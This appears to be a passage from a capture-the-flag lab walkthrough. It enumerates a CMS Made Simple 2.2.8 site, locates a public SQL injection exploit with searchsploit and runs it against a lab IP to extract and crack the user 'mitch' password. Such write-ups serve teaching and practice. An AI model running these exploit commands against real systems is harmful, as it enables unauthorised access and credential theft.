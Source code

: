 Nothing really in the `robots.txt` file that stands out.

Moving forward we have a directory called `simple` that returned a successful web response code from our scan earlier. Upon visiting that directory we are greeted with a web page that hosts a CMS (Content Management System) called ***CMS Made Simple***. 

![CMS made simple web page](https://i.imgur.com/AE1RKHm.png)

Just from browsing the page a little bit we also deduce some other information such as users active and version info on the CMS. This is called ***low-tech hacking***.

![CMS user mitch info from a post on the site](https://i.imgur.com/xqAyzwA.png)

![CMS made simple version info](https://i.imgur.com/y1TZZWr.png)

So we now have the following:
- A possible user `mitch`
- CMS made simple version-info 2.2.8

Let's browse through `searchsploit` and see if we can find more information about this cms. 

```console
# searchsploit CMS Made Simple 2.2.8 -w
----------------------------------------------------------------------- --------------------------------------------
 Exploit Title                                                         |  URL
----------------------------------------------------------------------- --------------------------------------------
CMS Made Simple < 2.2.10 - SQL Injection                               | https://www.exploit-db.com/exploits/46635
----------------------------------------------------------------------- --------------------------------------------
Shellcodes: No Results
```

Looking at `searchsploit` we find a SQL injection vulnerability for CMS made simple versions lower than 2.2.10. 

Upon visiting the URL path to exploit-db [https://www.exploit-db.com/exploits/46635](https://www.exploit-db.com/exploits/46635) we discover a downloadable python script to do the exploitation for us. 

![CMS made simple exploit-db info](https://i.imgur.com/BagY0DA.png)

## Gaining Access / Exploitation
---

Once you've downloaded the python script be sure to use `chmod +x` like the example below:

```console
# chmod +x 46635.py
```

Now, all we have to do is point the script to our target.

```console
# python2.7 ./toolbox/46635.py -u http://10.10.242.144/simple/ --crack -w /usr/share/wordlists/rockyou.txt

[+] Salt for password found: 1dac0d92e9fa6bb2
[+] Username found: mitch
[+] Email found: admin@admin.com
[+] Password found: 0c01f4468bd75d7a84c7eb73846e8d96
[+] Password cracked: secret
```
